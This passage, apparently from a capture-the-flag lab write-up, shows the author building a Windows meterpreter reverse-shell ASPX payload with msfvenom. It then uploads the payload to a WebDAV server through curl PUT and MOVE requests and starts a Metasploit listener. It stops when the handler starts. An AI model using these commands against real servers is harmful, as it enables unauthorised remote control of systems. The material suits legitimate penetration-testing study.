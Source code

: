 ### Meterpreter

I’ll do the same thing with a meterpreter payload. Create it:

```

root@kali# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=443 -f aspx > met.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2797 bytes

```

Upload:

```

root@kali# curl -X PUT http://10.10.10.15/met.txt -d @met.aspx 
root@kali# curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt

```

Start Metasploit:

```

msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     443              yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.14:443 

```
